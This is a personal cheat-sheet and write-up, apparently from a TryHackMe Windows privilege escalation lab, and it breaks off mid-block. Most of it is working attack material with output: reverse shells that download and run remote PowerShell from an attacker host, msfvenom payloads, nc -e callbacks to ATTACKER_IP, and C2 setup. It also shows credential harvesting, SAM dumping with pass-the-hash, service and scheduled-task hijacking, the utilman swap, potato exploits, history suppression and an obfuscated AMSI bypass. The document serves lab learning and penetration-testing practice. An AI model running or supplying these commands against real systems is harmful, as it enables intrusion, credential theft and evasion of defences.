


## Access Machine
---

### Remmina

Use a newer and modern opensource GUI tool : **remmina**

```bash
apt install remmina -y
```


### xFreeRDP

```bash
xfreerdp /u:thm-unpriv /p:Password321 /v:10.10.122.116 /size:1800x900
```

### ConPtyShell

> https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#fully-interactive-reverse-shell-on-windows

**Fully Interactive reverse shell**

Listner

```bash
stty raw -echo; (stty size; cat) | nc -lvnp 1111
```

Execute on target

```bash
powershell -nop -ep bypas -C "IEX (new-object net.webclient).downloadstring('http://10.11.19.145/Invoke-ConPtyShell.ps1');Invoke-ConPtyShell 10.11.19.145 1111"
```

^e30527

If `net.webclient` did not work, try `IWR`

```bash
powershell -nop -ep bypass -C "IEX(IWR http://10.11.19.145/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.11.19.145 1111"
```

> This will load a dll and get flagged by Antivirus, need to do some modification

### PowerShell Empire

The best c2 framework which utilizes powershell

```bash
# Start team server and client
./ps-empire server
./ps-empire client 

# Create Listener
uselistener http
set Port 2222
set Host 10.11.19.145
execute

# Create Staget and get payload cmd
usestager multi_launcher
set Listener http
generate

# Interact with agents
agents
interact 5TPLU3ZH
```

Its web UI is awesome


### HoaxShell

Use hoaxshell to get proper reverse shell that returns full cmd output

```bash
┌──(kali㉿kali)-[/opt/sectools/c2/hoaxshell]
└─$ pipenv run python3 hoaxshell.py -s 10.11.19.145
...
[Info] Generating reverse shell payload...
powershell -e JABzAD0AJwA...

PS C:\Users\thm-unpriv > Enable-PSRemoting
System.Management.Automation.CmdletInvocationException: Access is denied. To run this cmdlet, start Windows PowerShell with the "Run as administrator"
...
```

### Multi Reverse Shell Handler

#### Villian

> Writeup - [[Villian]]

Multi session Revshell Handler based on **HoaxShell**

Supports both windows and linux

```bash
pipenv run python3 Villain.py
generate payload=windows/netcat/powershell_reverse_tcp lhost=tun0 encode
sessions
shell 4ae3fc-fddd10-2caef2
```

#### Metasploit Multi Handler

Multi handler is allowed in OSCP

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=1111 -f exe -o rev.exe
msfconsole -L -q -x "use multi/handler; set payload windows/x64/shell_reverse_tcp; set LHOST eth0; set LPORT 1111; set exitonsession false; exploit -jz"

# Kill all jobs
jobs -K
```

#### Pwncat-CS

Old multi session revshell handler, it's not working for windows reverse shell

```bash
pwncat-cs

# Start Listening
listen 1111 -m linux

# General cmds
sessions
sessions <SESSION_ID>

# Interactive shell
## Use [CTRL + d] to enter or exit interactive shell

# Upload or download file
upload source [destination]
download source [destination]
```

#### Platypus

Multi session Revshell Handler for linux

> The revshell will not exit even when server stops, will be useful in many scenarios

```bash
./platypus_linux_amd64

# Interact with session
list
jump fc

# Download or upload file, tunneling
download [SRC] [DST]
Upload [SRC] [DST]

# Create tunnel 
## Remote port forward
tunnel create push 127.0.0.1 445 0.0.0.0 80
## Local Port Forward
tunnel create pull 127.0.0.1 22 127.0.0.1 22
## Socks proxy, just set dummy dst port and host
tunnel create internet 127.0.0.1 1080 0 0

# Enter full pty shell
interact
exit

# Bulk execute command
DataDispatcher
# Access webui at http://127.0.0.1:7331
```


### Metasploit Reverse Shell

More stable and interactive (**ConPtyShell** is still better), can use in CTF

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.19.145 LPORT=1111 -f exe > shell.exe 
cp shell.exe /tmp/www

cd /tmp/www
python3 -m http.server 80
smbserver.py s . -smb2support

rlwrap -r -f . nc -nlvp 1111

\\10.11.19.145\s\shell.exe
```

### Reverse Shell Generator

- https://www.revshells.com/

### Nishang

This shell will output stderror

```bash
cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 .
echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.11.19.145 -Port 1111' >> Invoke-PowerShellTcp.ps1
python3 -m http.server 80
```

```bash
rlwrap -r -f . nc -nlvp 1111
```

```bash
c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe -exec bypass -C iex(new-object net.webclient).downloadstring('http://10.11.19.145/Invoke-PowerShellTcp.ps1')
```

## Hosting Files
---
### Prepare Files

Can use linking for HTTP Server

```bash
┌──(kali㉿kali)-[/tmp/www]
└─$ ln -s /opt/sectools/powershell/PrivescCheck/PrivescCheck.ps1

┌──(kali㉿kali)-[/tmp/www]
└─$ ln -s /opt/sectools/powershell/PowerSharpPack/PowerSharpPack.ps1
```

SMB share will fail resolving links, use copy instead

```bash
┌──(kali㉿kali)-[/tmp/www]
└─$ cp /opt/sectools/win/SweetPotato.exe .
```

### HTTP Server

```bash
python3 -m http.server 80
```

### SMB Shares

```bash
smbserver.py s . -smb2support
```

### Http Upload Server

Supports both get and post (at `/upload`)

```bash
python3 -m uploadserver 80
```

## Windows Privilege Escalation
---

### Windows Users

| User                     | Description                                                                                                                                                                             |
|:------------------------ | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Administrators**       | These users have the most privileges. They can change any system configuration parameter and access any file in the system.                                                             |
| **Standard Users**       | These users can access the computer but only perform limited tasks. Typically these users can not make permanent or essential changes to the system and are limited to their files.     |
| **SYSTEM / LocalSystem** | An account used by the operating system to perform internal tasks. It has full access to all files and resources available on the host with even higher privileges than administrators. |
| **Local Service**        | Default account used to run Windows services with "minimum" privileges. It will use anonymous connections over the network.                                                             |
| **Network Service**      | Default account used to run Windows services with "minimum" privileges. It will use the computer credentials to authenticate through the network.                                       |

### Questions

##### Users that can change system configurations are part of which group?

> Administrators

##### The SYSTEM account has more privileges than the Administrator user (aye/nay)

> aye

## Harvesting Passwords from Usual Spots
---
The easiest way to gain access to another user is to gather credentials from a compromised machine. Such credentials could exist for many reasons, including a careless user leaving them around in plaintext files; or even stored by some software like browsers or email clients.

- Unattended Windows Installations
- Powershell History
- Saved Windows Credentials
- IIS Configuration
- Retrieve Credentials from Software: PuTTY

### Questions

##### A password for the julia.jones user has been left on the Powershell history. What is the password?

```cmd
cmd /c type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

Result:

```powershell
ls
whoami
...
cmdkey /add:thmdc.local /user:julia.jones /pass:ZuperCkretPa5z
cmdkey /list
cmdkey /delete:thmdc.local
```

> ZuperCkretPa5z

##### A web server is running on the remote host. Find any interesting password on web.config files associated with IIS. What is the password of the db_admin user?

Find `web.config`

```bash
where \R C:\ *flag*
```

or

```bash
cmd /c dir "web.config" /s
```

Find the db credential

```bash
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

Result:

```bash
 <connectionStrings>
        <add connectionString="Server=thm-db.local;Database=thm-sekure;User ID=db_admin;Password=098n0x35skjD3" name="THM-DB" />
    </connectionStrings>
```

> 098n0x35skjD3

##### There is a saved password on your Windows credentials. Using cmdkey and runas, spawn a shell for mike.katz and retrieve the flag from his desktop.

```bash
PS C:\Users\thm-unpriv > cmdkey /list
Currently stored credentials:

    Target: Domain:interactive=WPRIVESC1\mike.katz
    Type: Domain Password
    User: WPRIVESC1\mike.katz

PS C:\Users\thm-unpriv > runas /savecred /user:WPRIVESC1\mike.katz cmd.exe
```

```bash
C:\Windows\System32>cd %userprofile%\Desktop

C:\Users\mike.katz\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\mike.katz\Desktop

05/04/2022  05:17 AM    <DIR>          .
05/04/2022  05:17 AM    <DIR>          ..
06/21/2016  03:36 PM               527 EC2 Feedback.website
06/21/2016  03:36 PM               554 EC2 Microsoft Windows Guide.website
05/04/2022  05:17 AM                24 flag.txt
               3 File(s)          1,105 bytes
               2 Dir(s)  15,047,585,792 bytes free

C:\Users\mike.katz\Desktop>type flag.txt
THM{WHAT_IS_MY_PASSWORD}
```

> THM{WHAT_IS_MY_PASSWORD}

##### Retrieve the saved password stored in the saved PuTTY session under your profile. What is the password for the thom.smith user?

Winpeas result:

```bash
(new-object system.net.webclient).downloadstring('http://10.11.19.145/winPEAS.ps1') | IEX
```

```bash
==|| Putty Stored Credentials Check
Key: My%20ssh%20server
HostName :
thmdc.local
PortNumber :
22
UserName :

PublicKeyFile :

PortForwardings :

ConnectionSharing :
0
ProxyUsername :
thom.smith
ProxyPassword :
CoolPass2021

Time Running: 0:8
```

Manual Command:

```bash
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

> CoolPass2021

## Other Quick Wins
---

### Scheduled Tasks

```bash
schtasks /query /tn vulntask /fo list /v
icacls c:\tasks\schtask.bat
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
rlwrap -r -f . nc -nlvp 4444
schtasks /run /tn vulntask
```

### AlwaysInstallElevated

```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKING_10.10.122.116 LPORT=LOCAL_PORT -f msi -o malicious.msi

msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

### Questions

##### What is the taskusr1 flag?

> Refers: https://mayfly277.github.io/posts/GOADv2-pwning-part8/

PrivescCheck result (So much faster than winpeas):


Winpeas result:


```bash
PS C:\Users\thm-unpriv> schtasks /query /tn vulntask /fo list /v

Folder: \
HostName:                             WPRIVESC1
TaskName:                             \vulntask
Next Run Time:                        N/A
Status:                               Ready
Logon Mode:                           Interactive/Background
Last Run Time:                        6/9/2023 6:00:22 PM
Last Result:                          0
Author:                               WPRIVESC1\Administrator
Task To Run:                          C:\tasks\schtask.bat
Start In:                             N/A
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode, No Start On Batteries
Run As User:                          taskusr1
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        At system start up
Start Time:                           N/A
Start Date:                           N/A
End Date:                             N/A
Days:                                 N/A
Months:                               N/A
Repeat: Every:                        N/A
Repeat: Until: Time:                  N/A
Repeat: Until: Duration:              N/A
Repeat: Stop If Still Running:        N/A

PS C:\Users\taskusr1> type C:\tasks\schtask.bat
whoami > c:\tasks\output.txt
ipconfig >> c:\tasks\output.txt
exit
```

```bash

```

The file did not have the right encodings


Transfer the file to kali to correct it

```bash
PS C:\tasks> copy .\schtask.bat \\10.11.19.145\s\task.bat
```

It will show the error:

```powershell
copy : You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the
network.
```

Fix this by requesting password

```bash
smbserver.py s . -smb2support -username s -password s
```

```bash
PS C:\tasks> net use \\10.11.19.145\s /user:s s
The command completed successfully.

PS C:\tasks> copy .\schtask.bat \\10.11.19.145\s\task.bat
```

Get file info

```bash
┌──(kali㉿kali)-[/tmp/www]
└─$ file task.bat
task.bat: DOS batch file, Unicode text, UTF-16, little-endian text, with very long lines (1118), with CRLF line terminators
```

Create a new file which will be properly encoded

```bash
echo 'powershell -nop -exec bypass -enc CgAkAGMA...' > schtask.bat
```


```bash
copy \\10.11.19.145\s\schtask.bat .
schtasks /run /tn vulntask
```

```bash
┌──(kali㉿kali)-[~/scripts]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.196.63] 54718

ps> type $env:userprofile\Desktop\flag.txt
THM{TASK_COMPLETED}
```

> THM{TASK_COMPLETED}

## Abusing Service Misconfigurations
---

### Insecure Permissions on Service Executable

If the executable associated with a service has weak permissions that allow an attacker to modify or replace it, the attacker can gain the privileges of the service's account trivially.

```bash
# Check perms
C:\> icacls C:\PROGRA~2\SYSTEM~1\WService.exe

# Generate a revshell service
msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=1111 -f exe-service -o shell-svc.exe

python3 -m http.server 80

C:\> cd C:\PROGRA~2\SYSTEM~1\
C:\PROGRA~2\SYSTEM~1\> move WService.exe WService.exe~
C:\PROGRA~2\SYSTEM~1\> wget http://ATTACKER_IP/shell-svc.exe -O .\WService.exe

# Since we need another user to execute our payload, we'll want to grant full permissions to the Everyone group as well
C:\> icacls WService.exe /grant Everyone:F

rlwrap -r -f . nc -nlvp 1111

# Restart service
C:\> sc stop windowsscheduler
C:\> sc start windowsscheduler
```

### Unquoted Service Paths

With no quotes, it will resolve like this

`C:\\MyPrograms\\Disk Sorter.exe` -> `C:\\MyPrograms\\Disk.exe`

```bash
sc qc "disk sorter enterprise"
icacls c:\MyPrograms

msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=1111 -f exe-service -o shell-svc.exe
python3 -m http.server 80

rlwrap -r -f . nc -nlvp 1111

C:\> wget http://ATTACKER_IP/shell-svc.exe -O C:\MyPrograms\Disk.exe
C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F

C:\> sc stop "disk sorter enterprise"
C:\> sc start "disk sorter enterprise"
```

### Insecure Service Permissions

Can modify service settings

```bash
sc.exe query

# Check service perms
C:\tools\AccessChk> accesschk64.exe -qlc thmservice

# Prepare revshell
msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=1111 -f exe-service -o shell-svc.exe
python3 -m http.server 80

C:\> wget http://ATTACKER_IP/shell-svc.exe -O C:\Programdata\shell.exe

# Remember to grant permissions to Everyone to execute your payload
C:\> icacls C:\Programdata\shell.exe /grant Everyone:F

# Modify config
# setting "obj= LocalSystem" will make the service run as System!
C:\> sc config THMService binPath= "C:\Programdata\shell.exe" obj= LocalSystem

rlwrap -r -f . nc -nlvp 1111

C:\> sc stop THMService
C:\> sc start THMService
```

**PrivescCheck** result

```bash
iex (new-object net.webclient).downloadstring("http://10.11.19.145/PrivescCheck.ps1"); Invoke-PrivescCheck
```


Check by using Autoruns


### Questions

##### Get the flag on svcusr1's desktop.

**PrivescCheck** result


Prepare shell

```bash
┌──(kali㉿kali)-[/tmp/www]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.19.145 LPORT=1111 -f exe -o shell.exe

┌──(kali㉿kali)-[/tmp/www]
└─$ smbserver.py s . -smb2support
```


> [!NOTE] Note
> Using `-f exe` instead of `-f exe-service` will cause error message after restarting the service, but the reverse shell will still work

Start listner

```bash
┌──(kali㉿kali)-[~/thm]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
```

Download file and set FULL permission for everyone

```bash
PS C:\> cd C:\PROGRA~2\SYSTEM~1\
PS C:\Program Files (x86)\SystemScheduler> move WService.exe WService.exe~
PS C:\Program Files (x86)\SystemScheduler> net use \\10.11.19.145\s /user:s s
The command completed successfully.

PS C:\Program Files (x86)\SystemScheduler> copy \\10.11.19.145\s\shell.exe .\WService.exe

PS C:\Program Files (x86)\SystemScheduler> icacls WService.exe /grant Everyone:F
processed file: WService.exe
Successfully processed 1 files; Failed processing 0 files
```

Restart Service

```bash
PS C:\Program Files (x86)\SystemScheduler> sc.exe stop WindowsScheduler

SERVICE_NAME: WindowsScheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0x3e8
PS C:\Program Files (x86)\SystemScheduler> sc.exe start WindowsScheduler
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

> [!NOTE] Note
> PowerShell has `sc` as an alias to `Set-Content`, therefore you need to use `sc.exe` in order to control services with PowerShell this way.

```bash
┌──(kali㉿kali)-[~/thm]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.93.80] 50107
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
wprivesc1\svcusr1

C:\Windows\system32>cd %userprofile%
cd %userprofile%

C:\Users\svcusr1>cd Desktop
cd Desktop

C:\Users\svcusr1\Desktop>type flag.txt
type flag.txt
THM{AT_YOUR_SERVICE}
C:\Users\svcusr1\Desktop>
```

> THM{AT_YOUR_SERVICE}

##### Get the flag on svcusr2's desktop.

Save **PrivescCheck** result from tmux with `PREFIX + SHIFT + ALT + p`

```bash
┌──(kali㉿kali)-[~]
└─$ less tmux-history-thm-1-1-20230610T062406.log
```


Prepare rev shell

```bash
┌──(kali㉿kali)-[/tmp/www]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.19.145 LPORT=1111 -f exe-service -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe-service file: 48640 bytes
Saved as: shell.exe

┌──(kali㉿kali)-[/tmp/www]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```bash
┌──(kali㉿kali)-[~/thm]
└─$ rlwrap -r -f . nc -nlvp 1111
```

Can use `C:\MyPrograms\Disk.exe`

```bash
PS C:\> (new-object net.webclient).DownloadFile("http://10.11.19.145/shell.exe", "C:\MyPrograms\Disk.exe")
PS C:\> sc.exe stop "Disk Sorter Enterprise"

SERVICE_NAME: Disk Sorter Enterprise
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
PS C:\> sc.exe start "Disk Sorter Enterprise"

SERVICE_NAME: Disk Sorter Enterprise
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 3308
        FLAGS              :
PS C:\>
```

Get flag

```bash
┌──(kali㉿kali)-[~/thm]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.93.80] 50112
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
wprivesc1\svcusr2

C:\Windows\system32>type %userprofile%\Desktop\flag.txt
type %userprofile%\Desktop\flag.txt
THM{QUOTES_EVERYWHERE}
C:\Windows\system32>
```

> THM{QUOTES_EVERYWHERE}

##### Get the flag on the Administrator's desktop.

**PrivescCheck** result


Prepare rev shell

```bash
┌──(kali㉿kali)-[/tmp/www]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.19.145 LPORT=1111 -f exe-service -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe-service file: 48640 bytes
Saved as: shell.exe

┌──(kali㉿kali)-[/tmp/www]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```bash
┌──(kali㉿kali)-[~/thm]
└─$ rlwrap -r -f . nc -nlvp 1111
```

Download shell on target

```bash
PS C:\> (new-object net.webclient).DownloadFile("http://10.11.19.145/shell.exe", "C:\Programdata\shell.exe")
```

Search `service cconfig` from **arsenal** cheatsheet



Reconfigure the service

```bash
PS C:\> sc.exe config THMService binpath= "C:\Programdata\shell.exe" obj= LocalSystem
[SC] ChangeServiceConfig SUCCESS
PS C:\> sc.exe start THMService

SERVICE_NAME: THMService
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 4180
        FLAGS              :
```

> [!NOTE] Notice
> Specifying `obj= LocalSystem` will make the service run as System!

```bash
┌──(kali㉿kali)-[~/thm]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.93.80] 50129
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>type C:\Users\Administrator\Desktop\flag.txt
type C:\Users\Administrator\Desktop\flag.txt
THM{INSECURE_SVC_CONFIG}
C:\Windows\system32>
```

> THM{INSECURE_SVC_CONFIG}

## Abusing dangerous privileges
---
### Windows Privileges

>  [Priv2Admin](https://github.com/gtworek/Priv2Admin)

Check DACL-based access controls...etc

```shell-session
whoami /priv
```

Useful Resources:
- [Priv2Admin](https://github.com/gtworek/Priv2Admin) Github 
- Privilege Docs: https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants

### SeBackup / SeRestore

Have permission to backup the **SAM** and **SYSTEM** hashes

> Needs to start as Administrator

```bash
C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeBackupPrivilege             Back up files and directories  Disabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

```bash
smbserver.py s . -smb2support -username s -password s

net use \\10.11.19.145\s /user:s s
reg save hklm\sam \\10.11.19.145\s\sam
reg save hklm\system \\10.11.19.145\s\system

secretsdump.py -sam sam -system system LOCAL
```


- Check if Pass The Hash is successful
- Enable WINRM to be able to remote access with **evil-winrm**

```bash
┌──(kali㉿kali)-[/tmp/www]
└─$ cme smb 10.10.114.198 -u Administrator -H "8f81ee5558e2d1205a84d07b0e3b34f5" -X "Enable-PSRemoting -Force"
SMB         10.10.114.198   445    WPRIVESC2        [*] Windows 10.0 Build 17763 x64 (name:WPRIVESC2) (domain:WPRIVESC2) (signing:False) (SMBv1:False)
SMB         10.10.114.198   445    WPRIVESC2        [+] WPRIVESC2\Administrator:8f81ee5558e2d1205a84d07b0e3b34f5 (Pwn3d!)
SMB         10.10.114.198   445    WPRIVESC2        [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.
SMB         10.10.114.198   445    WPRIVESC2        [+] Executed command
SMB         10.10.114.198   445    WPRIVESC2        WinRM has been updated to receive requests.
SMB         10.10.114.198   445    WPRIVESC2        WinRM service type changed successfully.
SMB         10.10.114.198   445    WPRIVESC2        WinRM service started.
SMB         10.10.114.198   445    WPRIVESC2
SMB         10.10.114.198   445    WPRIVESC2        WinRM has been updated for remote management.
SMB         10.10.114.198   445    WPRIVESC2        Configured LocalAccountTokenFilterPolicy to grant administrative rights remotely to local users.
```

Connect via WINRM service

```bash
evil-winrm -i 10.10.114.198 -u Administrator -H "8f81ee5558e2d1205a84d07b0e3b34f5"
```


### SeTakeOwnership

Can take ownership of anything, thus we can use the famous **sethc** and **utilman** trick

> https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---impersonation-privileges
> 
> https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Persistence.md

|Privilege|Impact|Tool|Execution path|Remarks|
|---|---|---|---|---|
|`SeTakeOwnership`|_**Admin**_|_**Built-in commands**_|1. `takeown.exe /f "%windir%\system32"`  <br>2. `icalcs.exe "%windir%\system32" /grant "%username%":F`  <br>3. Rename cmd.exe to utilman.exe  <br>4. Lock the console and press Win+U|Attack may be detected by some AV software.  <br>  <br>Alternative method relies on replacing service binaries stored in "Program Files" using the same privilege.|


```bash
PS C:\Windows\system32> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Disabled
PS C:\Windows\system32>
```

Since Utilman is run with SYSTEM privileges, we will effectively gain SYSTEM privileges if we replace the original binary for any payload we like. As we can take ownership of any file, replacing it is trivial.

```bash
PS C:\Windows\system32> takeown /f C:\Windows\System32\Utilman.exe

SUCCESS: The file (or folder): "C:\Windows\System32\Utilman.exe" now owned by user "WPRIVESC2\THMTakeOwnership".
```

Notice that being the owner of a file doesn't necessarily mean that you have privileges over it

Give your user full permissions over utilman.exe you can use the following command:

```bash
PS C:\Windows\system32> icacls C:\Windows\System32\Utilman.exe /grant "$($env:username):F"

processed file: C:\Windows\System32\Utilman.exe
Successfully processed 1 files; Failed processing 0 files
```

Replace `Utilman.exe`

```bash
PS C:\Windows\system32> copy .\Utilman.exe .\Utilman.exe~
PS C:\Windows\system32> copy cmd.exe utilman.exe
```

Go back to windows logon screen, open utilman to start cmd with **SYSTEM**


### SeImpersonate / SeAssignPrimaryToken

As attackers, if we manage to take control of a process with **SeImpersonate** or **SeAssignPrimaryToken** privileges, we can impersonate any user connecting and authenticating to that process.


Use Sweet Potato (The best potato), 

> Refer - https://mayfly277.github.io/posts/GOADv2-pwning-part8/#seimpersonateprivilege-to-authoritysystem

> [!NOTE] Update!
> The latest potato is [**GodPotato**](https://github.com/BeichenDream/GodPotato)
> 
> The issue I encountered using **sweetpotato** was that it cannot pass arguments, have to write a batch file and put on target disk to get reverse shell back 
> 
> Godpotato will solve that issue, plus it supports almost any Windows OS
> ```bash
> .\GodPotato.exe -cmd "net user god /add & net localgroup Administrators god /add"
> ```

Prepare RevShell

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$ATTACKER_IP LPORT=1111 -f exe > shell.exe
smbserver.py s . -smb2support -username s -password 
rlwrap -r -f . nc -nlvp 1111
```

On target

```bash
Set-PSReadLineOption -HistorySaveStyle SaveNothing
net use \\$ATTACKER_IP\s /user:s s
copy \\$ATTACKER_IP\s\shell.exe C:\Programdata\shell.exe

# SweetPotato from PowerSharpPack
iex(new-object net.webclient).downloadstring("http://$ATTACKER_IP/Invoke-BadPotato.ps1")
Invoke-BadPotato -Command "C:\Programdata\shell.exe"
```

```bash
┌──(kali㉿kali)-[~/scripts]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [x.x.x.x] from (UNKNOWN) [10.10.130.8] 49995
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\system
```

### Questions

##### Get the flag on the Administrator's desktop.

Handle conpty shell

```bash
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; (stty size; cat) | nc -lvnp 1111
listening on [any] 1111 ...
```

Host `ConPtyShell.ps1`

```bash
┌──(kali㉿kali)-[/opt/sectools/powershell/ConPtyShell]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Payload:

```bash
powershell -nop -sta -NonI -w hidden -exec bypas -C "IEX (new-object net.webclient).downloadstring('http://10.11.19.145/Invoke-ConPtyShell.ps1');Invoke-ConPtyShell 10.11.19.145 1111"
```

Send payload from webshell


PrivEscCheck


```bash
PS C:\windows\system32\inetsrv> Set-PSReadLineOption -HistorySaveStyle SaveNothing
Error reading or writing history file 'Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt': Access to the path 'Microsoft\Windows\PowerShell\PSReadLine' is denied.
This error will not be reported again in this session. Consider using a different path with:
    Set-PSReadLineOption -HistorySavePath <Path>
Or not saving history with:
    Set-PSReadLineOption -HistorySaveStyle SaveNothing
um

PS C:\windows\system32\inetsrv> iex (new-object net.webclient).downloadstring("http://10.11.19.145/PrivescCheck.ps1"); Invoke-PrivescCheck
```

The summarize looks clean


A manual lookup is required to find the abuse of Privileges


Bypass AMSI then bypass AMSI at .net level

> [[Defense Evasion#PowerShell]]

```bash
┌──(kali㉿kali)-[/opt/sectools/powershell/ByPasses]
└─$ ls
amsi_net.txt  amsi_ps.txt

┌──(kali㉿kali)-[/opt/sectools/powershell/ByPasses]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```bash
PS C:\windows\system32\inetsrv> $x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[
Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)
PS C:\windows\system32\inetsrv> iex(new-object system.net.webclient).downloadstring('http://10.11.19.145/amsi_net.txt')
True
```

Prepare meterpreter stageless reverse shell

```bash
